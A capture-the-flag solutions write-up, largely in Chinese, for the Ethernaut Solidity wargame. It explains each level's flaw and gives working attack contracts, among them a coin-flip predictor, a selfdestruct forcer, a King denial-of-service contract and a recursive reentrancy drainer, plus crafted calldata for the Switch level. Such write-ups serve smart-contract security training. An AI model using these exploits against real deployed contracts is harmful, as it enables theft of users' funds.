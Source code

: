
Tips to [The Ethernaut](https://ethernaut.openzeppelin.com/) of openzeppelin

# Solution

## [01 - Fallback](https://ethernaut.openzeppelin.com/level/0x3c34A342b2aF5e885FcaA3800dB5B205fEfa3ffB)
1. 先调contribute, 再给合约地址transfer资金(调用 receive函数)， 就能直接获取ownership, 然后可调withdraw
2. 可调用contribute 每次转一点ether，贡献金额足够大就能变成owner


## [02 - Fallout](https://ethernaut.openzeppelin.com/level/0x676e57FdBbd8e5fE1A7A3f4Bb1296dAC880aa639)
注释 `/* constructor */` 并不是真的 constructor, 只是一个普通函数，直接调用就能获取ownership，`后一个字母l是数字1`


## [03 - CoinFlip](https://ethernaut.openzeppelin.com/level/0xA62fE5344FE62AdC1F356447B669E9E6D10abaaF)
deploy another contract to calculate the result
传入CoinFlip合约地址，部署CoinFlipSlove合约，调用CoinFlipSlove.guess去猜结果
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./CoinFlip.sol";

contract CoinFlipSlove {
  uint256 public consecutiveWins;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  address coinFlipAddr;

  constructor(address _coinFlipAddr ) {
    consecutiveWins = 0;
    coinFlipAddr = _coinFlipAddr;
  }

  function guess() public returns (bool) {
    require(consecutiveWins <= 3, "enough guesses");

    uint256 blockValue = uint256(blockhash(block.number - 1));

    uint256 flip = blockValue / FACTOR;
    bool side = flip == 1 ? true : false;

    bool r = CoinFlip(coinFlipAddr).flip(side);

    if (r) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```


## [04 - Telephone](https://ethernaut.openzeppelin.com/level/0x2C2307bb8824a0AbBf2CC7D76d8e63374D2f8446)
deploy another contract to attack
solitidy 文档也强调声明了不要使用[tx.origin](https://docs.soliditylang.org/en/v0.8.20/security-considerations.html#tx-origin) 来做鉴权
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Telephone.sol";

contract TelephoneAttack {
  function attack(address _telephoneAddr, address _owner) public {
    Telephone(_telephoneAddr).changeOwner(_owner);
  }
}
```


## [05 - Token](https://ethernaut.openzeppelin.com/level/0x478f3476358Eb166Cb7adE4666d04fbdDB56C407)
数值越界问题, transfer 超过msg.sender balance数量的value，msg.sender会出现超大的余额(负值被解析成了uint类型)
```solidity
function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }
```


## [06 - Delegation](https://ethernaut.openzeppelin.com/level/0x73379d8B82Fda494ee59555f333DF7D44483fD58)
[delegatecall](https://solidity-by-example.org/delegatecall/)
When contract A executes delegatecall to contract B, B's code is executed
with contract A's storage, msg.sender and msg.value.
所以，当调用Delegation 执行 pwn() 时，改变的owner并不是Delegate的owner，实际是Delegation的owner
并且，delegatecall时，msg.sender and msg.value 是调用 Delegation 的sender，是实际交易发起者


## [07 - Force](https://ethernaut.openzeppelin.com/level/0xb6c2Ec883DaAac76D8922519E63f875c2ec65575)
不能使用常规transfer方法给 Force address 转ETH，因为合约没有receive 方法， 也没有fallback 方法
但任何地址能被迫接收ETH当一个合约调用 [selfdestruct](https://solidity-by-example.org/hacks/self-destruct/) 方法，合约剩余的ETH会被转移到指定地址
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ForceAttack {
    function attack(address _forceAddr) external {
        selfdestruct(payable(_forceAddr));
    }
    receive() external payable {}
}
```


## [08 - Vault](https://ethernaut.openzeppelin.com/level/0xB7257D8Ba61BD1b3Fb7249DCd9330a023a5F3670)
eth_getStorageAt 能够获取到password的值


## [09 - King](https://ethernaut.openzeppelin.com/level/0x3049C00639E6dfC269ED1451764a046f7aE500c6)
contract 成为king之后，不接受ETH，游戏就会卡在这里，无法继续下去
```solidity
contract KingAttack {
    function attack() external payable {
        require(msg.value == 1 ether, "please send exactly 1 ether");
        // claim throne
        // use call here instead of challenge.transfer because transfer
        // has a gas limit and runs out of gas
        (bool success, ) = payable(address(challenge)).call{value: msg.value}("");
        require(success, "External call failed");
    }

    receive() external payable {
        require(false, "cannot claim my throne!");
    }
}
```


## [10 - Reentrance](https://ethernaut.openzeppelin.com/level/0x3049C00639E6dfC269ED1451764a046f7aE500c6)
仅 solidity 0.8.0版本之前的合约可以进行攻击, 因为 Solidity v0.8.0 引入了 [implicit overflow/underflow check](https://docs.soliditylang.org/en/v0.8.0/080-breaking-changes.html)
还有一个点需注意， Reentrance 若使用 `transfer` 替换 `(bool result,) = msg.sender.call{value:_amount}("");` 也无法攻击， 
因为 `address.transfer() has a gas limit of 2100. Its enough for emitting an event but not enough for victim.withdraw() `
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "./Reentrance.sol";

contract ReentranceAttact {
    Reentrance holder;
    uint256 initialAmount;

    constructor(address _holder) public {
        holder = Reentrance(payable(_holder));
    }

    function attack() external payable {
        initialAmount = msg.value; 
        holder.donate{value: initialAmount}(address(this));

        callWithdraw();
    }
    
    receive() external payable {
        callWithdraw();
    }

    function callWithdraw() private {
        uint256 leftover = address(holder).balance;
         bool keepRecursing = leftover > 0;

        if (keepRecursing) {
            uint256 amount = initialAmount > leftover ? leftover : initialAmount;
            holder.withdraw(amount);
        }
    }
}
```
[参考](https://ethereum.stackexchange.com/questions/119737/recreating-a-re-entrancy-attack-but-transaction-failed-reverted-why)


## [28 - GatekeeperThree](https://ethernaut.openzeppelin.com/level/0x653239b3b3E67BC0ec1Df7835DA2d38761FfD882)
`gateOne`: EOA调用合约调用`GatekeeperThree.enter`
`gateTwo`: 设置`allowEntrance`, `trick.password`可通过`getStorageAt`获取
`gateThree`: 通过`construct0r`设置owner，owner是合约，不包含`receive`或者`fallback`函数，send就会失败，返回false

## [29 - Switch](https://ethernaut.openzeppelin.com/level/0xb2aBa0e156C905a9FAEc24805a009d99193E3E53)
Switch.sol中`calldatacopy`和`address(this).call(_data)`使用的数据并不相同，函数的`calldata`包含`function selector` + `encode parameter data`, 而`_data`是解析之后的`parameter`.
拷贝68的起始位置， 拷贝 4bytes，正好是`_data`中代表`function selector`的数据, 要求数据为`offSelector`, 但为了达到目标，我们call需要真实调用`turnSwitchOn`，解决这个问题，需要假造`calldata`数据如下
```bash
    // _data is "0x30c13ade0000000000000000000000000000000000000000000000000000000000000060000000000000000000000000000000000000000000000000000000000000000020606e1500000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000476227e1200000000000000000000000000000000000000000000000000000000"
    
    --> function flipSwitch selector
    30c13ade
    --> offset, now = 96-bytes
    0000000000000000000000000000000000000000000000000000000000000060
    --> extra bytes
    0000000000000000000000000000000000000000000000000000000000000000
    --> Offset 68 (where the check occurs)
    20606e1500000000000000000000000000000000000000000000000000000000
    --> length 4 bytes 
    0000000000000000000000000000000000000000000000000000000000000004
    --> Data (function turnSwitchOn signature)
    76227e1200000000000000000000000000000000000000000000000000000000
```